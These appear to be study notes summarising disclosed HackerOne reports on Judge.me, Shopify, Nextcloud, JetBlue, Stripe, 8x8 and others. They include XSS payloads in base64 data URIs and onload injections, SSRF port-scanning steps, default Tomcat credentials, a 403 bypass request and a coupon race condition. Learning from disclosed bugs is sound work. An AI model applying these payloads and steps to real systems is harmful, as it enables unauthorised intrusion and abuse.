

# 😁 02


## 01

### \[Judge.me] Stored XSS in Public Profile Reviews(1398285)

> None - XSS - 250



The attacker can inject the payload into the shop addition options.

1. go to the user profile
2. click add recommendation, the payload is a link tag: `<a href="data:text/html;charset=utf-7;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">`Click Here`</a>`

(It seems the base64 encode can bypass the check)

3. click on HTML tag, the XSS will be triggered.

> Test the stored-XSS at the profile page by injecting an URL tag.


### \[Judge.me] Improper Access Control in Ali Express Importer

> Medium - Improper Access Control - 500



The reporter has reported three kinds of this vulnerability(1450807, 1382652).


### \[Judge.me] Self-XSS due to image URL can be exploited via XSSJacking techniques in review email

> Medium - XSS - 500



&#x20; 1 . Login and add a new recommendation&#x20;

2. Go back to the recommendation list, click the pencil icon in the image and insert this payload to trigger the Self-XSS:

> [https://secure.gravatar.com/avatar/█████████.png?;'onload=alert(document.domain)>](https://secure.gravatar.com/avatar/%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88.png?;%27onload=alert\(document.domain\)%3E)


## 02&#x20;

### \[Shopify]XSS at jamfpro.shopifycloud.com

> Medium - XSS - 9,400



* Payload : [https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9](https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9)


## 03

### \[TikTok] TikTok 2FA Bypass

> Medium - Improper Authorization - 1,565

A vulnerability was found where a user would be able to bypass 2FA if logging in and redirecting back on a UK TikTok Seller URL. We thank [@amans](https://hackerone.com/amans) for reporting this to our team.



## 05

### \[JetBlue] Access to tomcat-manager with default creds

> High - Imprper Authorization

Apache Tomcat/6.0.35, can login into the [https://██████████/manager/html](https://xn--4zhaaaaaaaaa/manager/html) with default credentials \`tomcat:tomcat\`



### \[JetBlue] Open Redirection

> Low - Open Redirection

The payload is like this:&#x20;

[https://█████\_https@google.com](https://%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88\_https@google.com). we can see the google.com can be injected after the \_https@



## 06

### \[Nextcloud] Mail app - blind SSRF via imapHost parameter

> Low - SSRF - 150



There is a Blind SSR vulnerability through the Nextcloud \`Mail\` application.

Using response time as a side effect, we can scan the port whether open on the server.

.png>)


Response time < 100ms = port closed/no listening on it. Port > 1000ms response, port open, listening with a service on it. Here I will scan my server locally

It is important here to leave the parameter `imapSslMode` on `none` !(idk why)


### \[Nextcloud] Mail app - Blind SSRF via Sierve server founctionnality and sieveHost parameter&#x20;

> Low - SSRF - CVE-2023-23943
>
> [https://hackerone.com/reports/1741525](https://hackerone.com/reports/1741525)

The report is similar to the last. This one touches a new parameter and a different endpoint.

The SSRF is found in the `sieveHost` parameter, and provided that the `sieveSslMode` parameter is set to `none`.


## 08

### \[Nextcloud] Suspicious login app ships old league old league/flysystem version

> Low -  Violation of Secure Design Principles
>
> [https://hackerone.com/reports/1720822](https://hackerone.com/reports/1720822)

`Flysystem: 0.1.0 - 2.1.0:` CVE-2021-32708


### \[Nextcloud] No password length restriction of reset password endpoint

> Low - DoS - CVE-2023-25816
>
> [https://hackerone.com/reports/1820864](https://hackerone.com/reports/1820864)


* How-to:
  * 1.Sign up
  * 2.logout and reset the password
  * 3.go to email and click on the reset password link
  * 4.input 150+ characters
  * 5.successfully&#x20;

> Test all of the password set places to make sure the length limitaion  question.


## 10

### \[Nextcloud] SSRF via filter bypass due to lax checking on IPs

> Medium - SSRF - 250
>
> [https://hackerone.com/reports/1702864](https://hackerone.com/reports/1702864)

**Server passes the Alphanumeric payload for AWS Magic IP and echoes Pass**\





### \[EXNESS]Double forward slash breaks server-side restrictions & allows access to prohibited services from a partner account

> 200\
> [https://hackerone.com/reports/1829170](https://hackerone.com/reports/1829170)

There is a little bit weird bug that the 403 Page can be by pass by add a slash:

```http
POST //api/v2/autorebates/groups/ HTTP/2
Host: my.exnesstrade.pro
Content-Type: application/json
Authorization: JWT xyz

{
"group_title":"Test"
}
```


## \[HackerOne] HackerOne Undisclosed Report Leak via PoC of Full Disclosure on Hacktivity

> low - information disclosure  - 500
>
> [https://hackerone.com/reports/1826141](https://hackerone.com/reports/1826141)

The undisclosed report disclose by the PoC video


## 13

### \[DoD] Splunk Sensitive Information Disclosure

> Insecure Storage of Sensitive Information&#x20;

CVE-2018-11409, use can add \`\_\_raw/services/server/info/server-info?output\_mode=json\` after the query to get a license key.


### \[Twitter] The deleted Polls is Still Accessable after 30 Days

> high - Privacy Violation - 560

The link of Poll can be visited after the creator delete it.


## ! \[Strip] Promotion code can be used more than redemption limit.


> low - Time-of-check Time-of-use(TOCTOU) Race Condition - 250
>
> [https://hackerone.com/reports/1717650](https://hackerone.com/reports/1717650)

1. create a promotion code
2. visit any two payments links of same merchant with the coupon.
3. In both payments links, fill the form and apply coupon
4. Hit both link's pay button as fast as you can.
5. Both payment will be successful using one coupon two times.\


## 15

### \[8x8] admin.8x8.vc: Member users with no permission can integrate email to connect calendar via GET /meet-external/spot-roomkeeper/v1/calendar/auth/init?..

> high  - Improper Access Control

Member users do not have permission to rooms area of the admin section.&#x20;

But member users can exploit this via GET /meet-external/spot-roomkeeper/v1/calendar/auth/init?successRedirectUrl=https://admin.8x8.vc/rooms=/add HTTP/2


### \[8x8]！ jaas.8x8.vc: Removed users can still have READ/WRITE access to the workspace via different API endpoints

> high - Improper Access Control

* Step1: Login to your administrator account
* Step2: Click on "Invite teammates" and add a "user".
* Step3: View and accept the Invitation received via email and set up your account
* Step4:  Now from that account just perform any action to get cookie&#x20;
* Step5: Now go to the main user account and remove this invited user.
* Step6: Observed that removed users can still have READ/WRITE access to the workspace.


